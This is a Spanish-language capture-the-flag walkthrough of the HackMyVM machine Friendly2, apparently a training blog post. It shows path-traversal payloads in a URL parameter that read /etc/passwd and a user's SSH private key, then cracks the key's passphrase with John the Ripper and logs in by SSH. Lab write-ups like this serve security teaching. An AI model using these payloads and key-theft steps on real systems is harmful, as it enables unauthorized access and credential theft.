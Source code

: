 
---
- TAG: #Explotación #Vulnerabilidades #Inclusion #Archivos #Locales #LFI
----
# Máquina: [Friendly2](https://hackmyvm.eu/machines/machine.php?vm=Friendly2)

# Explotación de una Vulnerabilidad Local File Inclusion (LFI)

En el blog de hoy, vamos a aprender a realizar un **Local File Inclusion (LFI)** en una página web vulnerable. Hay muchas formas de realizar un **LFI**, pero esta vez lo aprenderemos de una manera sencilla y básica, adecuada para el nivel del examen.

Para ello, utilizaremos una máquina víctima de **HackMyVM**.

- Máquina: [Friendly2](https://hackmyvm.eu/machines/machine.php?vm=Friendly2)
- Máquina atacante: Linux

## Procedimiento

### 1. Preparación del Entorno

Una vez descargada la máquina vulnerable y exportada a nuestro VirtualBox, estamos listos para proceder.

1. **Arp-scan** para localizar la máquina víctima.
2. **Ping** para ver el tipo de TTL y entender a qué nos enfrentamos.
3. **Nmap** para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Al finalizar el escaneo, encontramos dos puertos abiertos: `22` (SSH) y `80` (HTTP). Al acceder a la página web a través del navegador en el puerto 80, vemos una página web sencilla.

### 2. Exploración de la Página Web

1. **Revisar el código fuente** presionando `Ctrl + U`.
   No vemos nada interesante, así que continuamos.

2. **Fuzzing Web**:
   ```bash
   dirb http://1.2.3.4
   ```

Con este ataque rápido, encontramos dos directorios: `/assets` y `/tools`.

3. Al probar el primer directorio, encontramos un mensaje de **Información privada**. Revisamos el código fuente (`Ctrl + U`) y encontramos información sensible en un comentario:
   ```bash
   check_if_exist.php?doc=keyboard.html
   ```

Agregamos esta información al final de la URL:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=keyboard.html
   ```

Vemos una página sencilla con la imagen de un teclado. Ahora, realizaremos el ataque **Local File Inclusion (LFI)**.

### 3. Realización del Ataque Local File Inclusion (LFI)

Cuando vemos algo similar a `doc=keyboard.html` en una URL, siempre que esté llamando a un parámetro o archivo, es probable que sea vulnerable a **LFI**. Esta vulnerabilidad nos permite retroceder por los directorios hasta acceder a archivos importantes de la máquina víctima.

1. En la URL, reemplazamos `keyboard.html` con `../` para retroceder en los directorios:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=../../etc/passwd
   ```

Al apuntar a `../etc/passwd`, veremos todos los usuarios registrados en la máquina víctima Linux.

2. Buscamos el fichero **id_rsa** de un usuario existente dentro de la máquina:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=../../home/gh0st/.ssh/id_rsa
   ```

Al acceder a esta ruta, vemos la **PRIVATE KEY**. Copiamos este archivo a nuestra máquina atacante para obtener acceso a la máquina víctima.

### 4. Uso del Archivo id_rsa para Acceder a la Máquina Víctima

1. Hacemos `Ctrl + U` en la página web con la clave.
2. Copiamos toda la clave.
3. En nuestra máquina Kali Linux, creamos un archivo con `nano` o `nvim`:
   ```bash
   nano id_rsa
   ```

4. Pegamos toda la clave, guardamos y salimos.
5. Le asignamos el permiso `600`:
   ```bash
   chmod 600 id_rsa
   ```

6. Ingresamos utilizando el archivo `id_rsa` con el usuario `gh0st`:
   ```bash
   ssh -i id_rsa gh0st@1.2.3.4
   ```

7. Nos pedirá el salvoconducto. Utilizamos **John The Ripper** para crackear el **id_rsa**:
   ```bash
   ssh2john id_rsa > hash
   john --wordlist=/usr/share/wordlist/rockyou.txt hash
   ```

8. Volvemos a ingresar con `ssh` y, esta vez, cuando nos pida el salvoconducto, ingresamos la credencial `celctic`:
   ```bash
   ssh -i id_rsa gh0st@1.2.3.4
   ```

Pegamos el salvoconducto encontrado y ya estaremos dentro.

### Resumen

1. Hemos explotado un **Local File Inclusion** para encontrar información valiosa de la víctima, específicamente el archivo `id_rsa`.
2. Hemos obtenido dicho archivo `id_rsa` y le hemos proporcionado el permiso `600`.
3. Lo hemos crackeado localmente con **John The Ripper** para obtener el salvoconducto.
4. Ingresamos como el usuario `gh0st` en la máquina víctima.

---
